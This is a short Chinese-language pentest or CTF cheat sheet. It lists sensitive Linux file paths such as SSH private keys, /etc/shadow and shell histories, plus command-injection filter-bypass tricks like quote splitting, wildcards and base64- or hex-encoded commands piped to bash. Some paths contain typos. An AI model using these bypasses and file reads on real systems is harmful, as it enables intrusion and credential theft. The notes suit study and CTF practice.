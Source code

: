 **Linux常见的敏感文件路径:**

```
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_ras.keystore
/root/.ssh/known_hosts //记录每个访问计算机用户的公钥
/etc/passwd
/etc/shadow
/etc/my.cnf //mysql配置文件
/etc/httpd/conf/httpd.conf //apache配置文件
/root/.bash_history //用户历史命令记录文件
/root/.mysql_history //mysql历史命令记录文件
/proc/mounts //记录系统挂载设备
/porc/config.gz //内核配置文件
/var/lib/mlocate/mlocate.db //全文件路径
/porc/self/cmdline //当前进程的cmdline参数

- /etc/passwd
- /proc/self/cmdline，用于获取当前启动进程的完整命令。
- /proc/self/maps获取堆栈分布
- /proc/self/mem得到进程的内存内容

```

# RCE

```
cat fl*  用匹配任意 
cat fla 用*匹配任意
ca\t fla\g.php        反斜线绕过
cat fl''ag.php        两个单引号绕过
echo "Y2F0IGZsYWcucGhw" | base64 -d | bash      
//base64编码绕过(引号可以去掉)  |(管道符) 会把前一个命令的输出作为后一个命令的参数

echo "63617420666c61672e706870" | xxd -r -p | bash       
//hex编码绕过(引号可以去掉)

echo "63617420666c61672e706870" | xxd -r -p | sh     
//sh的效果和bash一样

cat fl[a]g.php       用[]匹配

a=fl;b=ag;cat $a$b          变量替换
cp fla{g.php,G}    把flag.php复制为flaG
ca${21}t a.txt     利用空变量  使用$*和$@，$x(x 代表 1-9),${x}(x>=10)(小于 10 也是可以的) 因为在没有传参的情况下，上面的特殊变量都是为空的
```



# 源码备份
